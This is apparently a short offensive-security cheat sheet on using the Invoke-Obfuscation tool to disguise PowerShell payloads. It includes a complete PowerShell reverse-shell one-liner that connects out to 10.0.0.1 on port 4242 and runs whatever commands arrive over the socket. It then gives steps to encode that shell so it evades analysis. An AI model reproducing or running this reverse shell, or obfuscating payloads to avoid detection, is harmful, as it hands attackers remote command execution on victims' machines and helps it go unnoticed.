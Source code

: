 # Obfuscation
Obfuscation re-organizes code to make it harder to analyze 

**Invoke-Obfuscation**  
Opensource powershell v2 script obfuscator  
https://github.com/danielbohannon/Invoke-Obfuscation  

```git clone https://github.com/danielbohannon/Invoke-Obfuscation```  

Install powershell -- ```sudo apt-get install powershell -y```  
```pwsh``` -- this launches a powershell session  
Navigate to the Invoke-Obfuscation folder that was cloned  
Importing module -- ```Import-Module ./Invoke-Obfuscation.psd1```  
Launching tool -- ```./Invoke-Obfuscation```  

**Usage**  
Copy code from Paylod all the things  
```powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"```  
Save it in a file called shell.ps1
Back to Invoke-Obfuscation  
```SET SCRIPTPATH Pathto/shell.ps1```  
```ENCODING```  
enter encoding option  
copy and save in new powershell script  
```SET SCRIPTPATH pathto/shell.ps1```

AST  
Select ALL  
1 to execute  

RESET -- clears everything
